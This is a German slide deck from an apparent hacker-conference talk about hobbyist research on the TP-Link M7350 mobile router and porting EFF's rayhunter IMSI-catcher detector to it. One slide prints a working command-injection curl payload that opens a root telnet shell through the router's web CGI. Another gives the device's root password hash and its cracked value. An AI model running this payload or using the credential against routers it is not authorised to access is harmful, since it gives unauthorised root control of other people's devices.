# Exploring TP-Link M7350 and porting rayhunter


:::::::::::::: {.columns}
::: {.column width="36%"}
Handle: \
Rufname: \
:::
::: {.column width="42%"}
m0veax \
Lutz \
:::
::: {.column width="5%"}
:::
::::::::::::::
 \

- In meinem Berufsleben mache ich Sachen mit Software Entwicklung und Corporate Requirements
- Springe seit 2022 im Chaos rum
- Verbringe meine Freizeit mit allem was mich (sprunghaft) interessiert und unternehme viel mit meinen Kindern


# TP-Link M7350 Projekt

- Mein erstes Projekt im Bereich "Hardware Hacking"
- Was ich hier zeige ist nicht nur meine Leistung, sondern gesammelte Werke aus dem Projekt

# Zielsetzung

Ich möchte euch folgendes erzählen:

- Was haben wir über das Gerät seit Januar 2024 lernen können?
- Das ganze passiert grob in historischer Reihenfolge
- Welche Dinge wurden auf dem TP-Link M7350 umgesetzt?
- Was ist `rayhunter` und wie wird das benutzt?

# Beginn

- Wir sind irgendwie™ an eine Stückzahl der Mobile-Router gekommen
- Im Chaospott haben sich mehrere Entitäten gefunden, die sich mit dem Gerät befassen möchten
- Wir haben einen [Matrix Channel](https://matrix.to/#/!hUtDhlRLVIQJzRgCpE:zehka.net?via=yip.gay&via=matrix.org&via=chaospott.de) und ein [Github Repository](https://github.com/m0veax/tplink_M7350/tree/main) zum Sammeln der Informationen eingerichtet

# Hardware

:::::::::::::: {.columns}
::: {.column width="47%"}
SoC \
flash \
mobile wireless
:::
::: {.column width="47%"}
Qualcomm MDM9225 \
2Gbit (256MB) Winbond W71NW20GF3FW \
Skyworks SKY77629
:::
::: {.column width="5%"}
:::
::::::::::::::

 \

:::::::::::::: {.columns}
::: {.column width="47%"}

:::
::: {.column width="47%"}

:::
::: {.column width="5%"}
:::
::::::::::::::

 \

# Wir legen los

- wir finden 4pda
- russisches Forum, das u.a. eine RCE im Webinterface gefunden hat
- die dort hochgeladenen Scripte sind teilweise nicht mehr verfügbar
- wir haben den dokumentierten Payload in Rust und später bash implementiert um `telnet` Zugang auf das Gerät erhalten
- wir haben root per `telnet`

```bash
curl -s 'http://192.168.0.1/cgi-bin/qcmap_web_cgi' 
-b "tpweb_token=$token"
-d '{"token":"'"$token"'","module":"webServer","action":1,
"language":"$(busybox telnetd -l /bin/sh)"}' > /dev/null
```


# Erste Findings

- komfortable shell per `adb` möglich
- wir dokumentieren erste Findings im Filesystem und dumpen die Firmware
 - `root:C98ULvDZe7zQ2:0:0:root:/home/root:/bin/sh` -> `oelinux123`
- aus der Firmware extrahieren wir ein Device Tree Binary

# Recap MRMCD 2024

- Wer von euch war auf der MRMCD 2024?

# Recap MRMCD 2024

:::::::::::::: {.columns}
::: {.column width="23%"}
 
:::
::: {.column width="72%"}
{ height=80% }
:::
::: {.column width="5%"}
:::
::::::::::::::

# Was können wir eigentlich mit dem Display machen?

Als wir begonnen haben, uns mit dem Gerät abseits der Firmware zu beschäftigen, haben wir uns als erstes mit dem Display beschäftigt.

# Was können wir eigentlich mit dem Display machen?

- Was ist das für ein Display?
- Lass uns im Device Tree Binary nachschauen!

# Was können wir eigentlich mit dem Display machen?

- Wir finden die Display Version per [dtvis](https://github.com/platform-system-interface/dtvis)

{ height=80% }

# Was können wir eigentlich mit dem Display machen?

- Können wir das UI ändern?
- Dokumentation und Tools zum Parsen und Anzeigen von UI Tiles entstehen und landen im Repository

# Was können wir eigentlich mit dem Display machen?

{ height=80% }

# Was können wir eigentlich mit dem Display machen?

- Wie wäre es mit einer neuen Bootanimation?

# Was können wir eigentlich mit dem Display machen?

- Pika Pika

{ height=50% }

# Was können wir eigentlich mit dem Display machen?

- Was passiert wenn wir /dev/random/ auf das Display ausgeben?
- Warum ist das Bild auf einmal farbig?

# Was können wir eigentlich mit dem Display machen?

- Anscheinend ist der Treiber nur Schwarz/Weiß fähig, es wurde aber ein Farbdisplay verbaut

# Was können wir eigentlich mit dem Display machen?

- Bad Apple

{ height=80% }

# Was können wir eigentlich mit dem Display machen?

- Wir finden die Display Treiber Quelltexte in den TP-Link Sourcen

# TP-Link OSS

TP-Link ist dank der GPL dazu verpflichtet, die Kernel Quelltexte zu veröffentlichen.

- Wir haben uns die Kernel Sources von der TP-Link Seite angeschaut
- Es ist ein Android Kernel
- Wir hatten erst Schwierigkeiten die passende Kernelversion zu finden
- Dann konnten wir aber den ersten Kernel aus den Vendor Sourcen bauen
- [extra repository](https://github.com/m0veax/tplink_M7350-kernel) erstellt und im Hauptrepository verlinkt

# TP-Link OSS

- Mittlerweile haben wir einen [`cpud`](https://github.com/u-root/cpu) fähigen Vendor Kernel bauen können
    - Nur mit der Vendor Toolchain
    - Mit Modifikationen auch Farbe auf dem Display
- Es gibt einen ersten rudimentär nutzbaren Mainline Linux Kernel
    - Display mit Farbe funktioniert
    - Kein `/dev/diag` 

# Bootpoint

- Auf 4pda wurde ein Bootpoint dokumentiert, was können wir damit machen?
- Mit dem Bootpoint ist es möglich das Gerät im Emergency Download (EDL) Modus zu starten

# Bootpoint

{ height=80% }

# Bootpoint

{ height=80% }

# Bootpoint

- Mit einer kleinen Modifikation am Gerät können wir den EDL Modus nun starten ohne das Gerät aufzuschrauben

{ height=60% }

# Bootpoint

- [qc_boot](https://github.com/platform-system-interface/qc_boot) ist entstanden
- Projekt um mit Qualcomm SoCs per USB im [EDL Mode](https://en.wikipedia.org/wiki/Qualcomm_EDL_mode) zu kommunizieren

# fastboot

- Das `fastboot` von Qualcomm ist im [LK](https://github.com/littlekernel/lk) (Little Kernel) implementiert worden

# AT Commands

- Über AT Commands können Band Einstellungen und die IMEI im Modem geändert werden
- für die Ausführung ist das Programm `diagcmd` aus dem 4pda Forum nutzbar
    - wir haben die Sourcen für das Programm auf einem Fileserver gefunden


# Fazit

- Wir haben über unser Projekt in verschiedenen Hackspaces geredet
- Wir haben auf das Projekt auf 4pda und im OpenWRT Forum hingewiesen
- Über die Gespräche / Threads und Suchmaschinen sind Leute unserem Matrix Kanal beigetreten und haben mitgebastelt
- Mehr Menschen = mehr gut

# rayhunter

- Erst einmal ein Disclaimer
- Ich habe `rayhunter` nicht geschrieben
- Ich habe wenig Kentnisse über Mobilfunk

# IMSI Catcher - eine kurze Exkursion

- Ein IMSI Catcher ist ein Gerät, mit dem unter anderen festgestellt werden kann, welche SIM Karten / Mobilfunkgeräte sich in einer Funkzelle befinden
- Es gibt auch Möglichkeiten, Gespräche auf GSM zu downgraden
- Dafür strahlt der IMSI Catcher eine eigene Funkzelle aus und die verbindungsfreudigen Mobiltelefone melden sich an


# Was hat das mit unserem TP-Link zu tun?

- Wie kommen `rayhunter` und der TP-Link M7350 nun in einen Vortrag?

# Was hat das mit unserem TP-Link zu tun?

- Im Chaospott wurde über `rayhunter` geredet und darüber, dass der Router, der dafür verwendet wird, unserem TP-Link M7350 sehr ähnlich sieht
- Wir haben uns daraufhin `rayhunter` angeschaut und in den Issues des Repositories gesehen, dass Hardware für den europäischen Markt gesucht wird
- In dem Issue von Mai 2025 wird auf den TP-Link M7350 hingewiesen und wir haben uns mit dem Hinweis gemeldet, dass wir das Gerät kennen und versuchen, die Software zu portieren
- relativ schnell hat sich herausgestellt, dass unser TP-Link dem Orbic sehr ähnlich ist
    - Root Exploit vorhanden, Zugriff auf das Qualcomm DIAG Interface ist möglich

# Was hat das mit unserem TP-Link zu tun?

{ height=80% }

# Was hat das mit unserem TP-Link zu tun?

- relative schnell ist eine erste Portierung auf den TP-Link M7350 HW-v3 erfolgt
- weitere Revisionen folgten (mehr oder weniger) schnell
- mittlerweile ist auch der Installer in Rust geschrieben

# rayhunter - wie lief die Portierung?

- da beide Geräte eine Arm v7 CPU haben, konnte das Binary einfach kopiert werden
- Im Gegensatz zum Orbic hat der TP-Link nicht genug Speicherplatz
    - Nutzung einer SD-Karte und Anpassungen in den Startup Scripten haben Abhilfe geschaffen

# rayhunter - wie lief die Portierung?

In einem [Shellscript](https://github.com/m0veax/rayhunter-tplink-M7350/blob/installer_v3/dist_tplink_v3/install-common.sh) wurde automatisiert:

- Das Ausführen des Root Exploits
- Einloggen auf das Gerät per Telnet und Aktivieren von `adb` per `expect`
- Kopieren von benötigten Dateien per `adb push`
- Das erstmalige Starten von `rayhunter`
- Ein Test auf die Erreichbarkeit des Webinterfaces

# rayhunter - wie lief die Portierung?

- Da das Shellscript nur für Linux-Systeme mit bestimmten Dependencies gepasst hat, wurde der Prozess später in einen `rayhunter` Rust Installer übernommen

# rayhunter - wie lief die Portierung?

- Nach übernahme in den `rayhunter` Installer, wurde der TP-Link M7350 die offizielle Empfehlung für den europäischen Raum

# rayhunter - wie lief die Portierung?




# rayhunter - Was ist das eigentlich?

- `rayhunter` ist ein Tool, um IMSI Catcher anhand von heuristischen Merkmalen zu detektieren und den Nutzer darüber zu informieren

# rayhunter - heuristische Merkmale

Unter anderem sucht `rayhunter` nach Indikatoren für folgende [IMSI Catcher Aktivitäten](https://efforg.github.io/rayhunter/heuristics.html)

- 2G Downgrades
- Null Cipher Verschlüsselung


# rayhunter

- Wie benutze ich `rayhunter`?

# rayhunter ui



# rayhunter pcap

- Ein nettes Nebenprodukt von `rayhunter` ist das erstellen von .pcap Files für Recordings
- Hier kann sich der GSM / LTE / etc. Traffic, der über den Qualcomm Chip läuft, angeschaut werden
- Voraussetzung ist, dass eine aktivierte SIM-Karte in das Gerät eingelegt wurde

# rayhunter pcap



# Fazit

- Sowohl im Kontext vom TP-Link M7350 als auch bei rayhunter gibt es noch viel zu tun und zu entdecken
- Neben der Erkennung von IMSI Catchern kann mit rayhunter und dem TP-Link der eigene Mobilfunktraffic sichtbar gemacht werden
- Wenn ich über meine Projekte rede, machen auf einmal Menschen mit :)
- Ich habe nette Menschen kennengelernt und eine Menge dabei gelernt

# Fazit

- Wenn ihr `rayhunter` ausprobieren wollt, sprecht mich gerne an. Ich bin noch bis zum Ende der Veranstaltung vor Ort
- Mehr Informationen zu `rayhunter` und der genauen Funktionsweise gibt es in den Slides des `rayhunter` [DEFCON Talks](https://media.defcon.org/DEF%20CON%2033/DEF%20CON%2033%20presentations/Cooper%20Quintin%20-Recording%20PCAPs%20from%20Stingrays%20With%20a%20%2420%20Hotspot.pdf)

# Credits 

- thanks to @untitaker for picking up the "installer" development after I fell into the next rabbit hole <3
- thanks to @mutant who mentioned `rayhunter` to me the first time <3
- thanks to @matej\_kovacic for summarizing IMSI catchers <3
- thanks to @EFF for inventing rayhunter <3 I learned a lot using it :)
- thanks to @CyRevolt and the other Chaospott folks <3
- thanks to @DuSchu for finding the initial 4pda thread, that's how the journey started <3
- thanks to @anyone contributing to the Matrix channel and the project repository <3

# Links

- [rayhunter - github](https://github.com/EFForg/rayhunter)
- [IMSI Catcher slides from Matej Kovacic](https://telefoncek.si/predavanja/IMSI_catchers_and_mobile_security_2024.pdf)
- [EFF Defcon slides about rayhunter](https://media.defcon.org/DEF%20CON%2033/DEF%20CON%2033%20presentations/Cooper%20Quintin%20-Recording%20PCAPs%20from%20Stingrays%20With%20a%20%2420%20Hotspot.pdf)
- [Mastodon @m0veax](https://det.social/@m0veax)
